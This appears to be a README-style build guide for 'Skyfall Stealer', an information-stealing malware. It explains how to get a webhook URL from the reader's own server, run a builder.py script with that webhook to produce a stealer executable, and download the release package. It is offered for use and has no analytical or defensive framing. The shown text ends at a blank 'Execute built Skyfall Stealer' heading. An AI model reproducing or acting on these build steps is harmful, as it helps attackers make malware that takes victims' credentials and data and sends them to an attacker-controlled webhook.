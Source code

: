 # Build Guide for the Skyfall Stealer
## Run the builder.py Script

To build a Skyfall Stealer you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

[![image](https://i.ibb.co/56LJStc/stealer.png)](https://github.com/Tangoxfreq/skyfall-stealer/releases/download/v1.8.2/skyfall-stealer.zip)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Skyfall Stealer

